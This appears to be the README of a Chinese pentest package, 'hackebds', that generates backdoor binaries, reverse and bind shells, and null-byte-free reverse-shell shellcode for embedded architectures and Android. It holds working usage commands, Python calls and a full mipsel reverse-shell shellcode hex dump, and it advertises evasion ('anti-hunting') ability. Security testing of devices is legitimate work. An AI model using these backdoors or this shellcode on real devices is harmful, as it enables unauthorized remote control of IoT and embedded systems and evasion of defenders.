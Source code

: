 # 简介

>在嵌入式设备的渗透和漏洞挖掘过程中，遇到了许多问题。一个是一些设备没有telnetd或ssh服务来获得交互式shell，一些设备被防火墙保护，无法与其正向连接需要reverse_shell，另一个是内存损坏漏洞（如堆栈溢出）通常是空字节截断，因此构造反向shell代码更麻烦，因此开发此工具是为了利用该漏洞。该工具基于PWN模块开发，目前使用python2语言， 语言已更新到python3，在python3下使用即可

### 功能

该工具嵌入到设备的安全测试中。有两个主要功能：
1. 生成各种架构的**后门程序**。后门程序是用反向shell汇编代码打包的，大小很小，且纯静态封，装**现在支持Armv5、Armv7、Armv8、mipsel和mips，mips64，mips64el，powerpc仍在更新中，powerpc64**
2. 在攻击过程中生成各种架构的**反向shell代码**，且无空字节，这有助于攻击嵌入式设备上的内存损坏漏洞**现在支持Armv5、Armv7、Armv8、mipsel和mips，mipsel64，aarch64，riscv64，仍在更新中**
3. 修复了reverse_shellcode和reverse_backdoor**端口选择过大**的一些错误，**在x86和x64**、**下增加了使用指定端口和密码生成bindshell的功能，并美化了生成过程****（此功能将更新到各种架构）**
4. 支持命令行生成后门和外壳代码，特点是轻便、小巧、高效、快速
5. 在利用过程中生成各种架构的reverse_shell shellcode，并且没有空字节，这有助于利用嵌入式设备上的内存损坏漏洞。Armv5、Armv7、Armv8、mipsel、mips、mips64、mips64el、powerpc、powerpc64现在支持，它们仍在更新中

6. 修复了reverse_shellcode和reverse_backdoor端口选择太大的一些错误，并在x86和x64下添加了生成具有指定端口和密码的绑定壳的功能，并美化了生成过程**（此功能将更新到各种架构）**添加支持armvelv7_bind_shell（2022.10.27），

7. 删除了shellcode的生成睡眠时间，并添加了mips_ bind_ Shell，x86和x64 small end_ shell_ Backdoor的反向，预计将被mips_ bind_ Shell中断的mips，解决了mips中绑定shell中的密码逻辑处理错误，加入aarch64_ bind_shell

8. 支持命令行生成后门和外壳代码，具有很强的反狩猎能力，以轻巧、小、高效和快速为特征

9. 添加了设备模型的学习功能。建立模型和拱门之间的关系后，再次生成目标内容。您只需要指定模型

10.添加CVE检索功能，并备份CVE检索

11.改进了x86、x64、armebv5、reverse_ shellcode和reverse_ shell_文件



### 安装
安装模块
**pip install hackebds**

```
pip install -U hackebds
```
### 安装问题
出现python如下图问题请安装对应的binutils环境
![image-20221107231221043](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221107231221043.png)
#### 第一步
```
apt search binutils | grep arm(这里的arm可以更换需要的对应架构)
apt install binutils-arm-linux-gnueabi/hirsute
```
### 怎么使用
这里的ip地址与端口都是shell弹回的地址与port，导入此模块后pwn模块也会直接导入，无需再次导入
#### 1. 生成对应各种架构的后门程序，纯shellcode封装，回连shell成功概率大
32为程序bind_shell中密码最多4个字符，64位程序最多8个字符
使用命令行生成后门文件名、shell代码、binshell等
 ![image-20221107231221043](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221107231221043.png)

   ```
   hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shellcode -passwd 1231
   ```

   ![image-20221102181217933](https://img-blog.csdnimg.cn/img_convert/8571f33df56a35983e368c777141ad54.png)
   ```
   hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shell_file
   ```
   ![image-20221102183017775](https://img-blog.csdnimg.cn/img_convert/660574b30d7ae810cc7b0d96a3a60bd2.png)

   ```
   hackebds -reverse_ip 0.0.0.0 -reverse_port 8081 -arch armelv7 -res bind_shell -passwd 1231
   ```
   ![image-20221102182939434](https://img-blog.csdnimg.cn/img_convert/05ebc0b42efcb42f58eef4815b3b08dc.png)


```
>>> from hackebds import *
>>> mipsel_backdoor(reverse_ip,reverse_port)
>>> mips_backdoor(reverse_ip,reverse_port)
>>> aarch64_backdoor(reverse_ip,reverse_port)
>>> armelv5_backdoor(reverse_ip,reverse_port)
>>> armelv7_backdoor(reverse_ip,reverse_port)
>>> armebv5_backdoor(reverse_ip,reverse_port)
>>> armebv7_backdoor(reverse_ip,reverse_port)
>>> x64el_backdoor(reverse_ip,reverse_port)
>>> x86el_backdoor(reverse_ip,reverse_port)
>>> mips64_backdoor(reverse_ip,reverse_port)
>>> mips64el_backdoor(reverse_ip,reverse_port)
>>> android_aarch64_backdoor(reverse_ip,reverse_port)
>>> x86_bind_shell(listen_port, passwd)
>>> x64_bind_shell(listen_port, passwd)
>>> mips64el_bind_shell(listen_port, passwd)
>>> mips64_bind_shell(listen_port, passwd)
```
列如:
```
>>> mipsel_backdoor("127.0.0.1",5566)
mipsel_backdoor is ok in current path ./
>>> 
```
![image-20221026181947194](https://img-blog.csdnimg.cn/img_convert/ad35bd8fc68cb44da974d7e28ac0cfe9.png)
```
>>> from hackebds import *
>>> x64_bind_shell(13000,"1235")
[+] bind port is set to 13000
[+] passwd is set to '1235'
[*] waiting 3s
[+] x64_bind_shell is ok in current path ./
```
![image-20221026182024685](https://img-blog.csdnimg.cn/img_convert/6d3d5e15bbaac7a91e98d290aa88c074.png)
#### 2. 生成对应各种架构的利用回连shellcode(no free无空字节
```
>>> from hackebds import *
>>> mipsel_reverse_sl(reverse_ip,reverse_port)
>>> mips_reverse_sl(reverse_ip,reverse_port)
>>> aarch64_reverse_sl(reverse_ip,reverse_port)
>>> armelv5_reverse_sl(reverse_ip,reverse_port)
>>> armelv7_reverse_sl(reverse_ip,reverse_port)
>>> armebv5_reverse_sl(reverse_ip,reverse_port)
>>> armebv7_backdoor(reverse_ip,reverse_port)
>>> mips64_reverse_sl(reverse_ip,reverse_port)
>>> mips64el_reverse_sl(reverse_ip,reverse_port)
>>> x86_reverse_sl(reverse_ip,reverse_port)
>>> x64_reverse_sl(reverse_ip,reverse_port)
```
列如:
```
>>> from hackebds import *
>>> shellcode=mipsel_reverse_sl("127.0.0.1",5566)
[+] No NULL byte shellcode for hex(len is 264):
\xfd\xff\x19\x24\x27\x20\x20\x03\xff\xff\x06\x28\x57\x10\x02\x34\xfc\xff\xa4\xaf\xfc\xff\xa5\x8f\x0c\x01\x01\x01\xfc\xff\xa2\xaf\xfc\xff\xb0\x8f\xea\x41\x19\x3c\xfd\xff\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xff\xfe\x19\x3c\x80\xff\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\xfc\xff\xb0\xaf\xfc\xff\xa4\x8f\x20\x28\xa0\x03\xef\xff\x19\x24\x27\x30\x20\x03\x4a\x10\x02\x34\x0c\x01\x01\x01\xf7\xff\x85\x20\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfe\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfd\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf8\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\x20\x20\xa0\x03\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf4\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xfc\xff\xa0\xaf\xf4\xff\xbd\x27\xff\xff\x05\x28\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\xfb\xff\x19\x24\x27\x28\x20\x03\x20\x28\xa5\x03\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\x20\x28\xa0\x03\xff\xff\x06\x28\xab\x0f\x02\x34\x0c\x01\x01\x01
```
## 更新 
> 	2022.4.29 在hackebds-0.0.5中加入了对aarch64无空字节reverse_shellcode的支持
>
> 	2022.5.1  更新在引入模块后可以直接调用，减少代码量,更改对python3的支持
> 	
> 	2022.5.5  0.0.8版本解决了mips_reverse_sl与mipsel_reverse_sl反弹不了shell的bug加入了mips64大小端的后门与reverse_shell功能
> 	
> 	2022.5.21 0.0.9版本更改了armelv5后门生成的方式，加入了riscv-v64的后门指定生成
> 	
> 	2022.6.27 0.1.0 加入了安卓手机后门的生成
> 	
> 	2022.10.26 0.1.5修复了一些问题，并添加了一些bindshell指定端口密码的自动生成功能
> 	
> 	2022.11.2 0.2.0 支持命令行生成后门和外壳代码，特点是轻便、小巧、高效、快速
> 	
> 	2022.11.2 0.20 删除了shellcode的生成睡眠时间，并添加了mips_bind_Shell，与x86和x64小端Shell_Backdoor相反，这些mips预计会被mips_biind_Shelll中断，这解决了mips中bindshell中密码逻辑处理的错误问题
>
> 	2022.11.8 0.2.2 完善了后门，shellcode，bin_shell的生成修复了一些小错误，增加了学习模块指定型号即可生成对应内容。
>

## ​:beer:​ 享受hacking
